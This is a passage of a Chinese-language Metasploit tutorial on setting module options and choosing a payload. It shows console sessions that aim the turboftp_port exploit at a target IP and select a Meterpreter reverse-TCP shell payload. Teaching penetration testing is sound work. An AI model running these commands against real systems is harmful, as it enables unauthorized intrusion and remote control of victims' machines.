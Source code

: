 要配置选项，您必须使用 `set` 命令：

```
msf6 exploit(windows/ftp/turboftp_port) > set -h
[-] Unknown variable
Usage: set [option] [value]

Set the given option to value.  If value is omitted, print the current value.
If both are omitted, print options that are currently set.

If run from a module context, this will set the value in the module's
datastore.  Use -g to operate on the global datastore.

If setting a PAYLOAD, this command can take an index from `show payloads'.

msf6 exploit(windows/ftp/turboftp_port) > set RHOST 10.99.45.8
RHOST => 10.99.45.8
msf6 exploit(windows/ftp/turboftp_port) > set FTPUSER example
FTPUSER => example
msf6 exploit(windows/ftp/turboftp_port) > set FTPPASS examplepass
FTPPASS => examplepass
```

```
[-] 未知变量
用法：设置[选项] [值]

将给定选项设置为 value。 如果省略 value，则打印当前值。 如果两者都省略，则打印当前设置的选项。

如果从模块上下文运行，这将在模块的数据存储中设置值。 使用 -g 对全局数据存储进行操作。

如果设置 PAYLOAD，此命令可以从“show payloads”中获取索引。
```

## Configuring a Payload（配置有效负载）
要运行漏洞利用，需要**有效载荷**。 有效载荷是漏洞利用模块注入受害者机器或服务的代码片段。
攻击者使用有效载荷来获取：
* 操作系统Shell
* VNC 或 RDP 连接
* **Meterpreter shell**
* 执行攻击者提供的应用程序

Metasploit 为不同的操作系统、不同的架构和不同的功能提供不同的有效负载。 您可以通过在 MSFConsole 提示符下键入`show payloads`来列出它们。
如果您在使用漏洞利用程序时启动 `show payloads` 命令，您将只看到与该特定漏洞利用程序一起工作的有效负载。

您可以通过发出 `set payload` 命令选择要使用的有效负载，后跟有效负载名称。 然后您可以使用 `show options` 命令检查其选项。

```
msf6 exploit(windows/ftp/turboftp_port) > set payload windows/meterpreter/reverse_tcp
payload => windows/meterpreter/reverse_tcp
msf6 exploit(windows/ftp/turboftp_port) > show options

Module options (exploit/windows/ftp/turboftp_port):

   Name     Current Setting  Required  Description
   ----     ---------------  --------  -----------
   FTPPASS  examplepass      no        The password for the specified username
   FTPUSER  example          no        The username to authenticate as
   RHOSTS   10.99.45.8       yes       The target host(s), see https://github.com/rapid7/metasploit-framework/wiki/Using-Metasploit
   RPORT    21               yes       The target port (TCP)


Payload options (windows/meterpreter/reverse_tcp):

   Name      Current Setting  Required  Description
```